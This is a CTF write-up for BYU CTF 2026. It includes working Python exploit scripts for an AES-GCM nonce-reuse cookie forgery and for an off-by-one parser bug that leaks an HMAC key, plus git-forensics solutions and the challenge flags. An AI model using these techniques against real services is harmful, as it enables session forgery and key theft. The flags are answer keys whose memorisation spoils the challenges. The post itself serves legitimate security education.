



:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

BYU CTF 2026 gave me three challenges that all said "the crypto is safe, trust me." All three were wrong. One was a cookie that claimed AES-GCM made it unbreakable. One was a coin that protected its flag with two layers of authentication, and then leaked its own key one byte at a time. One was a company git repo that thought deleting a file makes a secret disappear.

This post covers three solves: `[Crypto] AES Scissor Co 3`, `[Pwn] Bytecoin`, and the five-part `[Git] Gitastic` series. The crypto one looks scary but is really just a nonce-reuse joke. The pwn one looks like crypto but is really a parser bug. The git ones are a reminder that git is a content-addressed store, not a delete button.

---

## [Crypto] AES Scissor Co 3

> The author's exact words: *"I listened to the AI and let it use AES-GCM, which is bulletproof."*

AES-GCM really is strong. But it only stays strong if you never reuse the nonce. This app reused the nonce on almost every login, so the "bulletproof" part fell apart fast.

The challenge is a web app. You log in and get a session cookie. The cookie says `"role":"user"`. The admin page only opens if the cookie says `"role":"admin"`. My job was simple: make a cookie that lies, and make AES-GCM accept the lie.

### What made this challenge interesting

The challenge said "bulletproof." The code said something else. Everything depends on one function that builds the nonce from the current second:

```rust
fn gen_iv() -> Result<[u8; 12], Box<dyn std::error::Error>> {
    let timestamp = SystemTime::now()
        .duration_since(UNIX_EPOCH)
        .unwrap()
        .as_secs();                 // <- the nonce is basically "what time is it"
    let mut hasher = Sha256::new();
    hasher.update(timestamp.to_be_bytes());
    let result = hasher.finalize();
    result[..12].try_into().map_err(|_| "Failed to create IV".into())
}
```

This is not a random nonce. It is `SHA256(this_exact_second)`, cut down to 12 bytes. So every login inside the same second gets the **same** nonce under the same key. To break "bulletproof" GCM here, you just have to log in fast.

### Why nonce reuse is so bad

GCM has two parts: AES in counter mode (for encryption) and GHASH (for the authentication tag). If you reuse the nonce, both parts break:

- **Encryption part:** same nonce means same keystream. So `C1 ⊕ C2 = P1 ⊕ P2`. If I know one plaintext, I know the keystream, and I can encrypt any other message of the same length. I never need the AES key.
- **Authentication part:** several messages with the same nonce and same length leak math relationships that let me solve for the GHASH subkey `H`. Once I have `H`, I can build a valid tag for a ciphertext I made up.

So nonce reuse gives me both tools I need: forge the ciphertext, and forge the tag.

### The one-byte trick

The cookie plaintext is JSON. I want to change this:

```json
{"role":"user"}
```

into this:

```json
{"role":"admin"}
```

The problem: `admin` is one byte longer than `user`, and the keystream trick only works when both messages have the same length. So I make up the difference somewhere else. I shrink the username by one byte to pay for the extra byte in `admin`. My real login uses a 16-character username; my forged one uses 15. The total length stays the same, so the cookie keeps its shape and the server notices nothing.

### The plan



### The exploit

The main function is short. It needs surprisingly little. I never touch the AES key. I just let the server keep encrypting predictable JSON under a repeated nonce, and then I do the math:

```python
def forge_admin():
    session, records = collect_same_nonce()   # spam /login until 3+ cookies share an IV
    base = records[0]
    h = recover_h(records)                     # solve for the GHASH subkey from same-nonce tags

    # Get the UUID inside one real cookie so I can rebuild its plaintext exactly.
    uid = requests.get(BASE, headers={"Cookie": f"session={base['cookie']}"},
                       timeout=10).headers["X-User-ID"]

    source_pt = plaintext(uid, "user",  "A" * 16)   # the real plaintext I know
    target_pt = plaintext(uid, "admin", "B" * 15)   # the lie I want, same length

    # Same nonce means same keystream, so I can swap one known plaintext for another.
    forged_ct = bxor(bxor(base["ct"], source_pt), target_pt)

    # The GCM tag mask is shared across the reused nonce, so I can rebuild a valid tag.
    tag_mask  = int.from_bytes(base["tag"], "big") ^ ghash(h, base["ct"])
    forged_tag = (tag_mask ^ ghash(h, forged_ct)).to_bytes(16, "big")

    forged_cookie = b64e(base["iv"] + forged_ct + forged_tag)
    print(requests.get(BASE, headers={"Cookie": f"session={forged_cookie}"}, timeout=10).text)
```

The only slow part is `recover_h()`, which solves for the GHASH subkey `H`. That is normal `GF(2^128)` math: field multiply, field inverse, and a polynomial GCD over the same-nonce tags to find the one `H` that fits them all. It looks scary, but once the field math is written cleanly it is just mechanical. (The full script is saved next to the challenge as `solve.py` if you want to read every helper.)

:::tip
The shape to remember: **GCM tag = (per-nonce mask) ⊕ GHASH(H, ciphertext)**. If you reuse the nonce, the mask stays the same. So once you know `H`, you can build a valid tag for any forged ciphertext. The mask is the only secret, and nonce reuse leaks it.
:::

### Capturing the flag

```bash
python3 solve.py
```

```text
[+] collected 3 cookies with IV f88731b395ba0f2207ce5ee5 and ciphertext length 89
[+] recovered GHASH subkey H = c287fbf2afd8a73b7fcc7cd7cbfe0222
[+] forged cookie: -Icxs5W6DyIHzl7lGtoX9ul2nhu8c0Md...
[+] admin response status: 200
byuctf{n0m_n0m_c00k13_a4fb6c0f}
```

One forged admin cookie, one flag, and no AES keys were needed at any point.

**Flag:** `byuctf{n0m_n0m_c00k13_a4fb6c0f}`

### Mistakes I made so you don't have to

- My first forged request kept the `requests` session cookie *and* my own `Cookie` header at the same time. The server used the real cookie and ignored my fake one.
- I had the GHASH polynomial index off by one for a while. The math was wrong until I fixed where the exponent went.
- I spent too long admiring the words "AES-GCM" before I checked how `gen_iv()` actually built the nonce. The marketing almost fooled me.

---

## [Pwn] Bytecoin

> *"Would you like some crypto with your vulns?"* — the challenge, lying about which half matters.

Bytecoin **looks** like a crypto challenge. It encrypts the flag with ChaCha20-Poly1305, wraps an HMAC around the result, and shows you an obvious unauthenticated-IV bug. That bug is a trap. The real win is a small off-by-one bug in a hex parser that leaks the HMAC key one byte per round.

### What made this challenge interesting

It is filed under `pwn`, but there is no return-address overwrite. `checksec` shows everything turned on: canary, NX, PIE, partial RELRO. So a simple stack overflow was never the plan. The real bug is a *logic* bug: the parser says it read `n` bytes when it only wrote `n-1`, and the caller believes it.

The other hint: the challenge function loops exactly **33** times. When a CTF service repeats a round that many times, it usually wants you to leak one byte per round.

### The trap: unauthenticated IV

The binary computes `HMAC(hmacKey, ciphertext || poly1305_tag)`, but the IV is *not* part of the HMAC input. ChaCha20 is a stream cipher, so changing the IV changes the keystream and therefore the decrypted plaintext, without touching the ciphertext. That looks useful. But it was not enough on its own. In my local tests, failed decryptions did not give me anything I could use. So I treated the IV bug as a clue, not the answer, and kept reading.

### The real bug: `scan_hex_array()`

Here is the parser, cleaned up a little:

```c
int scan_hex_array(uint8_t *out, int max_bytes) {
    char *buf = calloc((max_bytes + 1) * 2, 1);
    fgets(buf, (max_bytes + 1) * 2, stdin);
    strip_newline(buf);

    count = 0;
    for (i = 0; i < max_bytes; i++) {
        if (buf[2*i] == '\0') break;
        if (buf[2*i + 1] == '\0') exit_with_extra_nibble();

        parsed = 0;
        count++;                              // <- BUG: count goes up BEFORE the check
        if (sscanf(buf + 2*i, "%2x", &parsed) == 1) {
            out[i] = parsed;
        } else {
            puts("invalid hex");
            break;
        }
    }
    free(buf);
    return count;                             // can be one larger than the bytes written
}
```

`count++` runs *before* the program checks if `sscanf` worked. So if I send `i` valid `00` pairs and then `zz`:

- `zz` fails `%2x`
- but `count` already went up
- the function returns `i+1`
- yet only `i` bytes of `out` were really written

The caller then does this:

```c
len = scan_hex_array(temp, wanted_len);
memcpy(dest, temp, len);          // copies i+1 bytes; the last one is old stack memory
```

That last byte was never set by me. The `temp` buffer was used earlier to hold a copy of the real `hmacKey`. So the extra byte I "read" is actually a byte of the HMAC key. Then `print_hex_array` prints it right back to me.

### The plan



### Leak the key, then forge the HMAC

I use 32 rounds to leak the 32-byte key, then 1 last round to use it. The server refuses to print any plaintext that starts with `byu`, so I flip the first ciphertext byte. That flips the first plaintext byte too, which gets me past the filter. Then I undo the flip at home:

```python
def main():
    r = remote(HOST, PORT)
    hmac_key = bytearray()

    for i in range(32):
        recv_round(r)
        # Parser returns i+1 but only wrote i bytes, so byte i leaks from the stack.
        send_attempt(r, (b"00" * i) + b"zz", IV.hex().encode(), b"00" * 16, b"00" * 32)
        resp = r.recvuntil(b"Invalid HMAC tag!")
        leak = re.search(rb"Decrypting message ([0-9a-f]+)", resp).group(1)
        hmac_key.append(bytes.fromhex(leak.decode())[i])
        print(f"leak[{i:02d}] = {hmac_key[-1]:02x}")

    last_ct, last_tag, _ = parse_round(recv_round(r))

    forged_ct = bytearray(last_ct)
    forged_ct[0] ^= 1                          # get past the "byu" prefix filter

    forged_mac = hmac.new(bytes(hmac_key),
                          bytes(forged_ct) + last_tag,
                          hashlib.sha256).hexdigest().encode()

    send_attempt(r, bytes(forged_ct).hex().encode(),
                 IV.hex().encode(), last_tag.hex().encode(), forged_mac)

    resp = r.recvall(timeout=3)
    msg = bytearray(bytes.fromhex(re.search(rb"Here's your message:\s*\n([0-9a-f]+)", resp).group(1).decode()))
    msg[0] ^= 1                                # undo the flip
    print(bytes(msg).split(b"\x00", 1)[0].decode(errors="replace"))
```

### Capturing the flag

```text
leak[00] = 83
leak[01] = 3c
leak[02] = f2
...
leak[31] = e5
byuctf{crypt0_buffer_reuse_b4d}
```

The flag basically names the bug: `crypt0_buffer_reuse_b4d`. The full chain was: parser length lie → old stack byte leaks → full key → forged HMAC → filter bypass → flag.

**Flag:** `byuctf{crypt0_buffer_reuse_b4d}`

:::note
The lesson I keep relearning: not every `pwn` needs control-flow hijacking. "Claimed length vs. bytes actually written" is an easy bug to miss when you read code quickly, and a reused stack buffer turns it into a key leak.
:::

---

## [Git] Gitastic 1–5

Five challenges, one idea: **git is a content-addressed store, not a database with a delete button.** Every blob, every author field, every tag message, every ref you never fetched is still there if you know where to look.



### Gitastic 1 — Needle in a Haystack

2,324 commits, each one full of machine-generated business buzzwords. The trap is in your head: the noise is so bad that you want to skim. Don't skim. Use grep:

```bash
git log --all --format="%s %b" | grep -i "byuctf"
```

Somewhere in the wall of fake business text, one commit even congratulates you for not searching by hand.

**Flag:** `byuctf{I_hop3_y0u_didnt_s3@rch_manually}`

### Gitastic 2 — The Odd One Out

Six authors, hundreds of commits each, all sharing one email. I had to find the one that does not belong. So I counted the author names:

```bash
git log --all --format="%an <%ae>" | sort | uniq -c | sort -rn
```

```text
387 Zinko <zinkogamez@gmail.com>
387 wyatt <zinkogamez@gmail.com>
...
  1 byuctf{wh0s_th3_auth0r?} <zinkogamez@gmail.com>
```

Someone made one commit using the *author name* `byuctf{wh0s_th3_auth0r?}`, betting that nobody would count author names with `uniq -c`.

**Flag:** `byuctf{wh0s_th3_auth0r?}`

### Gitastic 3 — Tagged Wrong

More than 300 version tags. The tag names are clean, so the flag must be in the tag messages. The trick is `-n999`, which makes git print the full tag message instead of cutting it at the first line:

```bash
git tag -n999 | grep -i "byuctf"
```

Tag `v1.0.129` had a message full of random characters, with the flag in the middle.

**Flag:** `byuctf{that's_a_lot_of_tags_wow}`

### Gitastic 4 — Nothing to See Here

A classic mistake: push an API key, panic, delete the file in the next commit, and think it is gone. But a git deletion only changes the working tree from that point on. Every older blob is still there. The pickaxe search finds where a string was added or removed:

```bash
git log -S "byuctf" --all --oneline
git show f3361dc          # the diff shows -byuctf{...} on the deletion line
```

**Flag:** `byuctf{But_th3s_was_d3l3t3d?}`

### Gitastic 5 — The Replacement

This was the most fun. One commit, one `secrets.txt`, and the file only says *"This is where we've already put our secrets!"* The commit message hints at the word **replaced**, which points to `git replace`. Replacement refs live under `refs/replace/`, and `git clone` does **not** fetch them by default:

```bash
git fetch origin "+refs/replace/*:refs/replace/*"
git show f88c2ad:secrets.txt
# byuctf{I_lov3_s3cr3t_files}
```

The `secrets.txt` you can see is a fake blob. The real one was quietly swapped in behind a replacement ref that a normal clone never pulls.

**Flag:** `byuctf{I_lov3_s3cr3t_files}`

### The takeaway

| Challenge | Git primitive | Why it hides |
|-----------|--------------|--------------|
| Gitastic 1 | Commit message body | Hidden in noise, but you can grep it |
| Gitastic 2 | Author metadata | Identity fields aren't checked |
| Gitastic 3 | Annotated tag body | `-n1` cuts it off, so people stop looking |
| Gitastic 4 | Blob object store | Deleting is not the same as erasing |
| Gitastic 5 | `refs/replace/` | Not fetched by default |

For a *real* leaked secret, deleting the file does nothing useful. The least you must do is rewrite history with `git filter-branch` or BFG, then force-push to every branch and tag. And even then, anyone who cloned the repo first still has the original.

---

## References

- [NIST SP 800-38D](https://csrc.nist.gov/pubs/sp/800/38/d/final) — the GCM spec, and the original source of "please do not reuse nonces."
- [Cryptopals Set 8](https://cryptopals.com/) — good practice for field-math and AEAD-misuse attacks.
- [Key Recovery Attacks on GCM (elttam)](https://www.elttam.com/blog/key-recovery-attacks-on-gcm/) — a clear write-up on why reused nonces are so dangerous.
- `git help replace` / `git log -S` — the two git features behind Gitastic 4 and 5.
